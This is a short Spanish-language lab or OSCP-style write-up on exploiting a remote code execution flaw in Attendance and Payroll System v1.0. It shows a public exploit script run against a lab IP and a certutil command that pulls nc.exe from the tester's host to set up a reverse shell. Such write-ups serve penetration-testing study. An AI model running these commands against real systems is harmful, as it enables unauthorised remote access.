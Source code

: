
## DESCRIPTION

Attendance and Payroll System v1.0 - Remote Code Execution (RCE)

#### Mas información
* 


## EXPLOITATION

Probamos el exploit:

![[Pasted image 20230601133318.png]]

Lo traemos al directorio de trabajo:

![[Pasted image 20230601133323.png]]

Editamos algunas líneas de código para que coincidan con nuestra URL:

Editamos lo que aparece subrayado:

![[Pasted image 20230601133334.png]]

Ejecutamos: 
```
python3 50801.py http://192.168.204.141:81/
```


![[Pasted image 20230601133346.png]]


La shell por defecto está limitada, por lo que vamos a subir un nc y a crearnos una reverse shell:

````
certutil.exe -urlcache -f http://192.168.45.180:8000/nc.exe nc.exe
````



![[Pasted image 20230601133352.png]]


## MACHINES

* Hack The Box: 
* OSCP:

